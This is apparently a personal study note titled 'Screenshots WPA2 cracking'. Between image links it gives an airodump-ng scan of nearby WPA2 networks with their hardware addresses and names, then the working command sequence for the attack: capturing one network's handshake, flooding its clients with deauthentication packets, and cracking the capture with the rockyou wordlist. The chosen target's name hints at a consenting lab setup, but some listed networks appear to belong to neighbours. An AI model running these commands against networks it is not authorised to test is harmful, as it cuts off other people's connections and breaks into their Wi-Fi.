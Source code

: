 ```yaml
---
title: Screenshots WPA2 cracking
updated: 2023-03-06 03:30:09Z
created: 2023-03-03 23:00:07Z
completed?: no
---
```


![1da6f344611dd8ed5767e7edb8b80615.png](../_resources/1da6f344611dd8ed5767e7edb8b80615.png)

![b652faba2a8bb4801b7c65fbd6ac6eac.png](../_resources/b652faba2a8bb4801b7c65fbd6ac6eac.png)

![5136e7fbbdde5507b07794424df2fa4b.png](../_resources/5136e7fbbdde5507b07794424df2fa4b.png)

BSSID PWR Beacons #Data, #/s CH MB ENC CIPHER AUTH ESSID

34:2C:C4:C9:9D:08 -83 39 0 0 6 130 WPA2 CCMP PSK telenet-5181C

36:2C:B4:C9:9D:08 -83 45 0 0 6 130 WPA2 CCMP PSK TelenetWiFree

1C:64:99:56:6F:BA -76 118 8 0 6 130 WPA2 CCMP PSK telenet-2B9D9

9A:8D:A7:4A:E1:1B -41 12 0 0 1 360 WPA2 CCMP PSK Ayoub Has Giveth Thee Consent

sudo airodump-ng -w hack1 -c 1 --bssid 9A:8D:A7:4A:E1:1B wlan0

sudo aireplay-ng --deauth 0 -a 9A:8D:A7:4A:E1:1B wlan0

aircrack-ng hack1-01.cap -w /var/run/vmblock-fuse/blockdir/TGdFdW/rockyou.txt

![a13f02ed6005c0b6002358505dce8ae4.png](../_resources/a13f02ed6005c0b6002358505dce8ae4.png)

restart web services:

service NetworkManager restart
![765dc9175e9a37ad5d62911726738d29.png](../_resources/765dc9175e9a37ad5d62911726738d29.png)